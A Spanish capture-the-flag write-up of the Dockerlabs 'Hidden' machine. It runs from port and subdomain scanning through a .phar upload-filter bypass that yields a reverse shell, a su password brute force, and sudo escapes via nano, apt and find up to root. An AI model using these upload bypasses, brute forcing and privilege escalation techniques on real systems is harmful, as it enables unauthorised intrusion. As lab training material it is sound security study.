


# 🖥️ Writeup - Hidden 

**Plataforma:** Dockerlabs  
**Dificultad:** Medium  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip hidden.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh hidden.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 20:05 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000033s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://hidden.lab/
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: localhost

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
```

Solo está abierto el puerto `80`, así que comenzamos por revisar qué encontramos allí.

```
Hmm. We’re having trouble finding that site.

We can’t connect to the server at hidden.lab.
```

Añadimos `hidden.lab` al archivo `/etc/hosts` para que el servicio web sea accesible.

```bash 
sudo nano /etc/hosts
```

Info:
```
127.0.0.1	localhost
127.0.1.1	kali
172.17.0.2  hidden.lab
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Al entrar en el navegador, se muestra una página web aparentemente normal que publicita una cafetería.

A primera vista no hay nada interesante, por lo que utilizamos `Gobuster` para buscar directorios ocultos.

# GOBUSTER

```bash
gobuster dir -u http://hidden.lab -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info: 
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hidden.lab
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,bak,sh,html,zip,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10483]
/contact.html         (Status: 200) [Size: 11680]
/about.html           (Status: 200) [Size: 9703]
/img                  (Status: 301) [Size: 306] [--> http://hidden.lab/img/]
/mail                 (Status: 301) [Size: 307] [--> http://hidden.lab/mail/]
/menu.html            (Status: 200) [Size: 11846]
/service.html         (Status: 200) [Size: 10926]
/css                  (Status: 301) [Size: 306] [--> http://hidden.lab/css/]
/lib                  (Status: 301) [Size: 306] [--> http://hidden.lab/lib/]
/js                   (Status: 301) [Size: 305] [--> http://hidden.lab/js/]
/LICENSE.txt          (Status: 200) [Size: 1456]
/testimonial.html     (Status: 200) [Size: 10335]
/reservation.html     (Status: 200) [Size: 11786]
Progress: 1515882 / 1543899 (98.19%)
```

Se detectan algunos, pero ninguno ofrece una vía clara de explotación.

A continuación comprobamos si existen `subdominios` de `hidden.lab`.

```bash
wfuzz -c --hl=9 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u hidden.lab
```

Info:
```
/usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://hidden.lab/
Total requests: 114442

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000019:   200        57 L     130 W      1653 Ch     "dev"
```

Efectivamente, encontramos `dev.hidden.local` , que también añadimos al archivo `/etc/hosts`.

```bash
echo "172.17.0.2	dev.hidden.lab" >> /etc/hosts
```

Al abrir esta dirección en el navegador, se muestra un panel que solicita subir un CV en formato `PDF`, indicando que no se permiten archivos con extensión `.php`.




Aunque probablemente bloquee archivos `.php`, podemos probar con extensiones alternativas como `.phar` o `.phtml`. Para ello, creamos un script de reverse shell y lo guardamos con la extensión `.phar`.

```bash
sudo nano shell.phar
```

En mi caso he utilizado el script de `Pentest Monkey`.

Accedemos al formulario de subida, seleccionamos nuestro archivo y lo enviamos. 

```
El archivo ha sido subido correctamente.
``` 

Aparece un mensaje de confirmación indicando que la carga se ha realizado correctamente.

Navegamos al directorio `/uploads`, donde se almacenan los archivos subidos desde el formulario, y comprobamos que nuestro archivo está allí.



Antes de ejecutarlo, configuramos un listener en la máquina atacante.

```bash
nc -nlvp 4444
```


Info: 
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 39318
Linux 507ac954e9cf 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 x86_64 x86_64 GNU/Linux
 18:45:47 up  1:31,  0 users,  load average: 0.29, 0.38, 1.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Tras lanzar el script, obtenemos una reverse shell con el usuario www-data.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS


Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Pero no encontramos nada.

Al revisar el archivo `/etc/passwd`, vemos que existen tres usuarios en el sistema: `bobby`, `cafetero` y `john`.

Nuestro siguiente paso será transferir el diccionario `rockyou.txt` y un script para realizar un `brute force` contra las credenciales de estos usuarios desde la máquina víctima.

Como la víctima no dispone de `wget` ni `curl`, podemos aprovecharnos nuevamente del panel de subida que utilizamos anteriormente.

```
total 28
drwxrwxrwx 1 root     root     4096 Sep  8 19:08 .
drwxr-xr-x 1 root     root     4096 Apr 16  2024 ..
-rw-r--r-- 1 www-data www-data  187 Sep  8 19:05 Linux-Su-Force.sh
-rw-r--r-- 1 www-data www-data  464 Sep  8 19:08 rockyou.txt
-rw-r--r-- 1 www-data www-data 5490 Sep  8 18:45 shell.phar
```

Ya tenemos los archivos en la carpeta `uploads`, así que procedemos a ejecutar el script.

```bash
chmod +x Linux-Su-Force.sh
./Linux-Su-Force.sh cafetero rockyou.txt
```

Info:
```
./Linux-Su-Force.sh cafetero rockyou.txt 
------------------------------------------------
Contraseña encontrada para el usuario cafetero: 123123
```

Hemos encontrado la contraseña del usuario `cafetero` : `123123`.

```bash
su - cafetero
```

Con estas credenciales accedemos correctamente como el usuario `cafetero`.

Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for cafetero on 507ac954e9cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cafetero may run the following commands on 507ac954e9cf:
    (john) NOPASSWD: /usr/bin/nano
```

Desde esta cuenta tenemos permisos para ejecutar el binario `nano` con privilegios del usuario `john`.

```bash
sudo -u john /usr/bin/nano
```

Al abrir el editor de texto nano, podemos ejecutar un comando de la siguiente forma:

```
Ctrl + R
Ctrl + X
```

```bash
reset; sh 1>&0 2>&0
clear
```

Info:
```
john@507ac954e9cf:/home/cafetero$ whoami
john
```

De este modo, pivotamos al usuario `john`.

Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for john on 507ac954e9cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on 507ac954e9cf:
    (bobby) NOPASSWD: /usr/bin/apt
```

Con `john` tenemos permisos para ejecutar el binario `apt` con privilegios del usuario `bobby`.

```bash
sudo -u bobby apt changelog apt
!/bin/bash
```

Info:
```
bobby@507ac954e9cf:/home/cafetero$ whoami
bobby
```

De este modo, pivotamos al usuario `bobby`.

Comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for bobby on 507ac954e9cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bobby may run the following commands on 507ac954e9cf:
    (root) NOPASSWD: /usr/bin/find
```

Finalmente, desde `bobby` es posible ejecutar el binario `find` con privilegios de `root`, consiguiendo así la escalada final.

```bash
sudo find . -exec /bin/sh \; -quit
```

Info:
```
# whoami
root
#
```

Ya somos root!